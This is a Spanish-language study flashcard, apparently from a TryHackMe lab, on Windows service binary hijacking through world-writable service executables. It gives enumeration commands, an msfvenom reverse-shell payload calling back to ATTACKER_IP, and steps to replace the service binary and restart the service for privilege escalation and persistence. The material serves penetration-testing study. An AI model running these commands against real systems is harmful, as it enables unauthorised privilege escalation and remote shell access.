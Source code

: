 Flashcard – **Service Binary Hijacking (Insecure Permissions)**

---

### Descubrimiento

**Enumerar servicios**

```cmd
sc qc WindowsScheduler
```

→ Detecta:

* `BINARY_PATH_NAME : C:\PROGRA~2\SYSTEM~1\WService.exe`
* `START_TYPE : AUTO_START`
* Corre como `.\svcusr1`.

**Revisar permisos del binario**

```cmd
icacls "C:\PROGRA~2\SYSTEM~1\WService.exe"
```

→ Salida:

* `Everyone:(M)` → cualquier usuario puede **modificar** el binario.

**Revisar permisos del directorio**

```cmd
icacls "C:\PROGRA~2\SYSTEM~1"
```

→ `Everyone:(OI)(CI)(M)` → también modificable recursivamente.

**Conclusión**: El servicio carga un binario en una ruta donde cualquier usuario puede sobrescribirlo. **Vulnerable a Privilege Escalation.**

---

### Explotación

**1. Generar payload (ejemplo con msfvenom)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o WService.exe
```

**2. Reemplazar binario**

```cmd
copy /Y WService.exe "C:\PROGRA~2\SYSTEM~1\WService.exe"
```
**2.b le das permisos**
```
icacls WService.exe /grant Everyone:F
```

**3. Forzar ejecución**

* Si tienes permisos:

```cmd
sc stop WindowsScheduler
sc start WindowsScheduler
```

* Si no: esperar **reinicio del sistema** (se ejecutará en AUTO\_START).

---

### Resultado

* El payload se ejecuta bajo la cuenta de servicio `svcusr1`.
* Si `svcusr1` tiene privilegios administrativos o más altos que `thm-unpriv`, se obtiene escalada.
* Persistencia: siempre que el servicio arranque, correrá el binario malicioso.

---

### Notas Operativas

* **Detección**: cualquier binario con permisos `Everyone:(M)` o `Users:(M)` en un servicio de Windows es un vector típico de **Service Binary Hijacking**.
* **Persistencia**: como el servicio es `AUTO_START`, la escalada está garantizada tras reinicio aunque no se pueda reiniciar manualmente.

---
